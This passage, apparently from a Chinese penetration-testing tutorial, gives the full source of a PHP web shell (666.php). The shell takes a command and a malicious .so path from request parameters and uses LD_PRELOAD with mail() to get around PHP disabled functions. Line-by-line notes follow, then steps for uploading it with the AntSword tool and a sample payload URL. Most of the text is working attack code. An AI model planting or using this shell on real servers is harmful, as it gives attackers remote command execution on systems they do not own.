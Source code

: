 }

创建666.php文件

<?php

\$cmd = \$_REQUEST["cmd"];

\$out_path = \$_REQUEST["outpath"];

\$evil_cmdline = \$cmd." > ".\$out_path." 2>&1";

echo "\<br /\>\<b\>cmdline:\</b\>".\$evil_cmdline;

putenv("EVIL_CMDLINE=".\$evil_cmdline);



\$so_path = \$_REQUEST["sopath"];

putenv("LD_PRELOAD=".\$so_path);

mail("","","");

echo "\<br /\>\<b\>output:\<b\>\<br/\>".nl2br(file_get_contents(\$out_path));

?>

解释:

要执行的系统命令cmd

outpath命令执行结果输出到指定路径下的文件

`2\>&1`将标准错误重定向到标准输出

打印显示实际在linux上执行的命令

将执行的命令,配置成系统环境变量`EVIL_CMDLINE`



sopath传入.so文件

将.so文件路径配置成系统环境变量`LD_PRELOAD`



echo把内容在网页上显示出来



把demo3.so和666.php上传到蚁剑后

构造payload:

666.php?cmd=ls&outpath=/tmp/benben&sopath=./demo3.so

cmd    #可控

out_path       输出的路径

sopath          指定恶意动态链接库



# 使用蚁剑插件
